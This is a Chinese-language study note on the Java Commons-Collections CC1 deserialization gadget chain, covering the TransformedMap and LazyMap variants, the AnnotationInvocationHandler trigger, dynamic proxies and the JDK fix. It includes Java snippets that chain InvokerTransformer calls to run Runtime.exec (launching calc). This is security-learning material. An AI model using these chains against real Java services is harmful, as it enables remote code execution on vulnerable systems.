

# 1.前言

**注意：需要边看边实操！**

**必看**：

- 先看：[Java反序列化Commons-Collections篇01-CC1链](https://drun1baby.github.io/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/#toc-heading-2) 进行实操

- 实操完回顾：[Java安全漫谈 - 09.初识CommonsCollections](https://t.zsxq.com/BmIIAy3) ,   [Java安全漫谈 - 10.用TransformedMap编写真正的POC](https://t.zsxq.com/ZNZrJMZ), [CommonsCollections1笔记](https://github.com/Y4tacker/JavaSec/blob/main/2.%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%93%E5%8C%BA/CommonsCollections1/CommonsCollections1.md) 

- 视频讲解：[Java反序列化CommonsCollections篇(一) CC1链手写EXP](https://www.bilibili.com/video/BV1no4y1U7E1?vd_source=1133eb6c801917b16b324ad28ad16d2e)

### 环境搭建

1.https://blog.csdn.net/weixin_44502336/article/details/127641619

2.JDK下载地址：https://blog.lupf.cn/category/jdkdl

下载通用密码：8899

（别从博客那个链接下，那个下载的8u65实际上是8u111，后面的实验会做不了）

---

**个人书写习惯：**

LazyMap.get 和LazyMap#get 是一样的，都表示LazyMap的get方法。**后面不再重复说明**


**回调函数**：主程序传`函数`给API，API会拿去执行

打个比方，有一个餐馆，提供`炒菜`的服务，但是会让我们选择做菜的方式，我们告诉他想吃小龙虾后，他会询问我们要以`何种方式`去进行烹饪,是炒还是煮。

- 炒菜服务：即API
- 何种方式：即传入的函数

---

# 2.链子按功能切割

(**JDK 8U71之前的版本能触发**)

这里**将链子分为三部分**，各部分的作用：

- 第三部分：链尾，用于命令执行
- 第二部分：传导
- 第一部分：触发，即寻找调用了readObject的地方

## 2.1**第三部分的chain:**

(这里的`1,2,3`只是参数1，参数2，参数3的意思,下同)

先初始化:

```md
TransformedMap.decorate(1,2,3)	静态方法
	TransformedMap.TransformedMap(1,2,3)
```

再调用 **TransformedMap.checkSetValue()** 去激活 **TransformedMap.transform()**,从而达到命令执行的目的


**为什么需要 hashMap对象**：为了构造 `TransformedMap.decorate()`方法，它要什么参数就给它什么参数

### 命令执行的关键

`InvokerTransformer`这个类可以⽤来执⾏任意⽅法，这也是反序列化能执⾏任意代码的关键。

在实例化这个`InvokerTransformer`时，需要传⼊三个参数，

第⼀个参数是待执行的方法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表

`InvokerTransformer`类的`transform`方法中用到了反射，只要传参进去就能反射加载对应的方法

关键地方：

```java
try {
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
}
```


### 为什么要去找调用 `transform` 方法的不同名函数


为了调用checkSetValue函数时，能触发  `valueTransformer.transform(value)`

从而形成 **InvokerTransformer.transform()**，也就达成了命令执行的目的**（参见[命令执行的关键]）**

```java

protected Object checkSetValue(Object value) {
       return valueTransformer.transform(value);
    }
```

POC对应语句：

```java
checkSetValueMethod.invoke(tranformedMap, runtime);
```

详情代码查看 **[第三部分.java]**

---

## 2.2第二部分的Chain

- 前言：[何为抽象类](https://www.runoob.com/java/java-abstraction.html)

### 思考这句话有什么错误？：

我们在进行 `TransformedMap.decorate` 方法调用，进行 Map 遍历的时候，就会走到 `setValue()` 当中，而 `setValue()` 就会调用 `checkSetValue`	—— [Java反序列化Commons-Collections篇01-CC1链](https://drun1baby.github.io/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/#toc-heading-2)

其实博客原文的这句话应该拆开来看：

**解答：**

1.首先请仔细看**TransformedMap的类继承关系:**


2.为什么执行`TransformedMap.decorate`方法调用，会进行 Map 遍历？：

2-1. 我分析得出的结论：**这句话是错的**，其实并不会进行Map遍历

2-2. 为什么不会进行Map遍历：

`TransformedMap.decorate`方法：

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

`TransformedMap`构造方法：

```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

是因为`TransformedMap`构造方法使用了**super(map)**,且`AbstractInputCheckedMapDecorator`也使用了**super(map)(参见[TransformedMap的类继承关系])**,最终导致调用了Map,但**并没有进行遍历Map**


3.当时我看博客我所不解的地方：

`AbstractMapDecorator`类中并无实现`setValue()`方法，它只是实现了Map接口，但它是如何实现 **{走到 `setValue()`当中}** 的呢？

```java
public AbstractMapDecorator(Map map) {
    if (map == null) {
        throw new IllegalArgumentException("Map must not be null");
    }
    this.map = map;
}
```

所以我进行了如下调试：

前言部分：

- **entrySet解释：**

  **每一个键值对也就是一个Entry**

  entrySet是 java中键-值对的集合，Set里面的类型是`Map.Entry`，一般可以通过`map.entrySet()`得到。

详情代码查看 **[第二部分.java]**

第二部分核心代码中有一句能够**把键值取出来**的核心代码：

因此我们重点调试这个 核心代码

```java
for (Map.Entry entry:decorateMap.entrySet()){
            entry.setValue(runtime);
        }
```


AbstractInputCheckedMapDecorator.entrySet()：

```java
public Set entrySet() {
        if (isSetValueChecking()) {
            return new EntrySet(map.entrySet(), this);
        } else {
            return map.entrySet();
        }
    }
```

AbstractInputCheckedMapDecorator.EntrySet.EntrySet()：

```java
protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) {
    super(set);
    this.parent = parent;
}
```

这里就将 TransformedMap类型的  parent 传递给了 this.parent

**为什么是 TransformedMap类型**，

而不是 AbstractInputCheckedMapDecorator类型 ，是因为 AbstractInputCheckedMapDecorator 是抽象类所以不能实例化只能让它的**非抽象类子类**实例化**(参见[TransformedMap的类继承关系])**


然后继续F7跟进，直到来到这：(跳过了一些无关紧要的map操作)。

AbstractInputCheckedMapDecorator.EntrySetIterator.next：

```java
public Object next() {
    Map.Entry entry = (Map.Entry) iterator.next();
    return new MapEntry(entry, parent);
}
```

关键是 `return new MapEntry(entry, parent);` 这句， MapEntry 是 AbstractInputCheckedMapDecorator 的内部类 。

AbstractInputCheckedMapDecorator.MapEntry.mapEntry：

```java
protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
    super(entry);
    this.parent = parent;
}
```

这里和上面一样，**parent 也是TransformedMap**。  成功赋值后，当我们的第二部分核心语句**（参见[第二部分核心代码]）**执行了 `entry.setValue(runtime);` 这句时，会调用 MapEntry 类的 setValue方法。从而连上链子的第三部分。

AbstractInputCheckedMapDecorator.MapEntry.setValue：

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
```

#### 正确解读：

因此，这句话**(参考[思考这句话有什么错误？])**的正确语序应该是这样的(**注意标点符号**)：

我们在进行 `TransformedMap.decorate` 方法调用（完成后）。（然后）进行 Map 遍历的时候，就会走到 `setValue()` 当中，而 `setValue()` 就会调用 `checkSetValue`


## 2.3第一部分的Chain

既然 是通过 `AbstractInputCheckedMapDecorator.MapEntry.setValue`方法进行传导的，那就看看谁调用了这个方法（右键点击查找用法）。

如果发现一个类符合以下两个条件的：

- 调用了 setValue 方法
- 调用了 readObject 方法

那这个类就是天生能被利用的类

经查询来到 sun.reflect.annotation.AnnotationInvocationHandler.readObject：

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

关键点在于 **需要进入两个If  和 memberValue.setValue**：

```java
memberValue.setValue(
    new AnnotationTypeMismatchExceptionProxy(
        value.getClass() + "[" + value + "]").setMember(
            annotationType.members().get(name)));
```

因此我们需要控制 memberValue ，途径恰好在 AnnotationInvocationHandler类 的构造函数

此外AnnotationInvocationHandler类 的作用域为 default（**并不是使用default关键字，而是省略访问控制符**）

default权限是**只能类内部和同一个包访问**，所以我们外部包调用它时需要引入**反射**

（详情代码 **参照[理想情况下.java]**）

---

### 理性情况下需要解决的两个问题（重要）：

- `Runtime` 对象不可序列化，需要通过反射将其变成可以序列化的形式。

- `sun.reflect.annotation.AnnotationInvocationHandler.readObject()中的setValue()` 的传参，是需要传 `Runtime` 对象的且要进入两个 if 判断

  

#### 1.第一个问题的两种写法

(本质一样，但第二种写法减少代码复用)：

即将 （详情代码 **参照[理想情况下.java]**）

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec"  
 , new Class[]{String.class}, new Object[]{"calc"});
```

改写成以下两种格式之一：

1-1.

```java
// 对应 Method runtimeMethod = r.getMethod("getRuntime");
        Class c = Runtime.class;
        Method runtimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}).transform(c);

// 对应 Runtime runtime = (Runtime) runtimeMethod.invoke(null,null);
Runtime runtime1 = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null,null}).transform(runtimeMethod);

// 执行calc
runtimeClass1.getMethod("exec", String.class).invoke(runtime1,"calc");
```

共同点：

- 格式都为 `new InvokerTransformer().transform()`
- 后一个 `transform()` 方法里的参数都是前一个的结果

为什么这么写：

**参照[命令执行的关键]**


1-2. 或者写成这种：

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod"
                , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke"
                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec"
                , new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

ChainedTransformer.transform使用一个for循环，循环调用 `transform()` 方法，并将前一个的结果当做下一个参数。

最后和其他未改变的部分进行拼接,详情代码参考**第一个问题.java**


##### 第一个问题为什么这样就解决了？

`Runtime` 是不能序列化的，但是 `Runtime.class` 是可以序列化的


#### 2.第二个问题

需要 **注解类型的参数**传入，且不为空。否则第一个If进不去：

sun.reflect.annotation.AnnotationInvocationHandler.readObject：


可以通过构造函数进入传入 type ， 所以现在先**找到一个类，这个类含有不为空的注释**。

找到的这个类是：

sun/reflect/annotation/AnnotationTypeMismatchExceptionProxy.java

```java
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues)
```

博客中 给的是 Target.class，也许还有别的也能用？

Retention.class也能用 	—— [Java安全漫谈 - 10.用TransformedMap编写真正的POC](https://t.zsxq.com/ZNZrJMZ)

- `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是
  Annotation的子类，且其中必须含有至少一个方法，假设方法名是`X`

- 被 `TransformedMap.decorate` 修饰的Map中必须有一个键名为`X`的元素

  

  所以，这也解释了为什么我前面用到 Retention.class ，因为Retention有一个方法，名为value；所
  以，为了再满足第二个条件，我需要给Map中放入一个Key是value的元素：


但是`memberValue.setValue`的值不能被控制，

所以寻找一个类，这个类能轻易被我们传入参数且能和 **ChainedTransformer** 配合将要执行的命令"揉在一起"：

org.apache.commons.collections.functors.ConstantTransformer：

```java
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

public Object transform(Object input) {
    return iConstant;
}
```

这个类的构造函数和transform方法配合使用，能把我们传入的任意值取出。这样我们定义一个TransformMap数组，然后扔给  ChainedTransformer去生成一个对象，ChainedTransformer对象再扔进TransformedMap.decorate,从而让链子连起来

 

这样，我们就将理想情况改成了可实际利用的，同时也是第二个问题的核心：

**（参照[第一个问题.java]）**

```java
chainedTransformer.transform(Runtime.class);    // 这一句是触发命令执行的关键核心,需要找方法去替代这条语句
```

被替换为：

**（参照[完整POC.java]）**

```java
new ConstantTransformer(Runtime.class),// 构造 setValue 的可控参数,也就是替换掉了 第一个问题.java 中的 chainedTransformer.transform(Runtime.class);
```

详情代码参考**完整POC.java**

# 3.LazyMap链

**前言：**

必读：

[Java安全漫谈 - 11.LazyMap详解](https://t.zsxq.com/FufUf2B)

**ysoserial 工具并没有使用TransformedMap，而是使用了LazyMap**

**(完整代码查看LazyMap链.java)**

### 如何利用：

LazyMap构造函数和get方法配套使用：

org/apache/commons/collections/map/LazyMap.java

```java
protected LazyMap(Map map, Transformer factory) {
    super(map);
    if (factory == null) {
        throw new IllegalArgumentException("Factory must not be null");
    }
    this.factory = factory;
}

public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

和TransformedMap的POC相比，少了 **hashMap.put("value", "test");** ，是因为LazyMap.get()方法 在没有键值的情况下才会触发 **factory.transform(key);** 


知道了如何利用，但要对原本的TransformedMap链进行修改：

原因是在sun.reflect.annotation.AnnotationInvocationHandler 的readObject方法中并没有直接调用到
Map的get方法

但AnnotationInvocationHandler类的invoke方法有调用到get，引入动态代理**（参照[1 Java安全基础/3 动态代理]）**

引入动态代理的条件：

- 实现 InvocationHandler 接口
- 重写`invoke()`方法

恰好的是，AnnotationInvocationHandler 都满足：

```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable
```

### 动态代理在LazyMap链的示意图：

```md
用户(readObject) --> 代理类对象(proxy) --> 目标类对象( LazyMap(AbstractMapDecorator(Map) )
```

### 动态代理在何处工作？

当我在AnnotationInvocationHandler.java 的444行（444行是readObject方法）

444行：

```java
for (Map.Entry<String, Object> memberValue : memberValues.entrySet())
```

进行调试的时候,F7跟进会发现使用了AbstractMapDecorator.entrySet(),结合LazyMap类的继承关系：


可以得知，动态代理在这进行了操作。

---

### LazyMap分析流程

重新调试：

既然LazyMap.get如此关键，那我们就调试它，看看能不能分析流程。

**只在 LazyMap.java的155行下断点**：

```java
public Object get(Object key)
```

调试器给出的执行过程：


**从上到下只看前4个**，执行顺序：

1. AnnotationInvocationHandler.readObject
2. $Proxy1.entrySet（动态代理自动生成）
3. AnnotationInvocationHandler.invoke
4. LazyMap.get


# 3.它是如何修复这条链子的？

前面说过，需要遍历Map（遍历使用了Map的一些方法）去触发setValue()。而遍历Map的操作恰好放在了 `sun.reflect.annotation.AnnotationInvocationHandler.readObject` 中：

```java
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
    ......
}
```


所以只要不让它遍历Map即可。

它的修复方案：不直接通过readObject进行操作了，而是新建了一个LinkedHashMap对象，并将原来的键值添加进去。


# 4.链子流程图和简洁概括

**3-1 链子流程图：**

drun1baby 师傅的：




我的理解加分析总结的：


建议结合起来看，一个详细，一个简略。


**3-2 简洁概括(不包含工具链)：**

**3-2-1 TransformedMap：**

我们在进行 **TransformedMap.decorate** 方法调用完成后（第三部分）。接着传递给**AnnotationInvocationHandler.readObject**用于开启反序列化（第一部分），当执行反序列化时会执行**setValue()**（因为Map遍历了），而 **setValue()** 就会调用 **checkSetValue**（第二部分），就会激活 **TransformedMap.transform()**（第三部分）,从而达到**InvokerTransformer**命令执行的目的

TransformedMap链：

```md
利用链：
AnnotationInvocationHandler#readObject
       AbstractInputCheckedMapDecorator#setValue
            TransformedMap#checkSetValue
				InvokerTransformer#transform

使用到的工具类辅助利用链：
ConstantTransformer
ChainedTransformer
HashMap
```

**3-2-2 LazyMap：**

LazyMap链的执行顺序：

1.`AnnotationInvocationHandler.readObject` 执行到 `for (Map.Entry<String, Object> memberValue : memberValues.entrySet())` 进入动态代理。

2.动态代理调用`AnnotationInvocationHandler.invoke` ，然后执行到了`memberValues.get(member);` 就跳转到 `LazyMap.get()`）

3.`LazyMap.get()` 调用`factory.transform()`，连上链子，从而实现命令执行

LazyMap链：

```md
利用链：
AnnotationInvocationHandler.readObject
    AnnotationInvocationHandler.invoke（动态代理操作的）
    	LazyMap.get()
    		factory.transform()	(ChainedTransformer.transform())
    		 TransformedMap#checkSetValue
				InvokerTransformer#transform
    		
使用到的工具类辅助利用链：
ConstantTransformer
ChainedTransformer
HashMap    		
```


# 5.思考

1.对学习他人文章的思考

- 学习他人的文章难免会有歧义，因为只有作者本人才会清楚文字所表达的意思。因此我们学习任何人的文章都要保持怀疑的态度（因为你个人的理解是和作者本人的理解可能会有偏差），包括我这篇文章
  - 如何解决歧义问题
    - 调试，永远都是第一选择。因为只有程序不会说谎
    - 自己写文章。自己写的文章自己风格最了解，也就最理解想表达的意思
- 一手资料永远都是表达的最精准的，但是解读起来很难啃，所以借助他人文章很有必要（站在巨人的肩膀上）
- 借助的文章要借助多个师傅的，取他人所长。
- 永远感激这些拥有分享精神的师傅

